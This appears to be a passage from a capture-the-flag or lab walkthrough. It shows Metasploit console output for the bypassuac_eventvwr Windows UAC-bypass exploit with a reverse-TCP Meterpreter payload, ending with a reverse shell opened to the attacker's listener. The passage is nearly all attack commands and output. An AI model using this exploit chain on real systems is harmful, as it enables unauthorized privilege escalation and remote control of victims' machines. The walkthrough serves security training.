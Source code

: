 ```bash

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.8.180       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

```

Now run the exploit
```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Started reverse TCP handler on 10.9.8.180:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (177734 bytes) to 10.10.37.29
[*] Cleaning up registry keys ...
[*] Meterpreter session 2 opened (10.9.8.180:4444 -> 10.10.37.29:49280) at 2025-07-19 06:54:10 -0400

meterpreter > background
msf6 exploit(windows/local/bypassuac_eventvwr) > sessions 

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.8.180:4444 -> 10.10.37.29:49245 (10.10.37.29)
  2         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.8.180:4444 -> 10.10.37.29:49280 (10.10.37.29)

msf6 exploit(windows/local/bypassuac_eventvwr) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

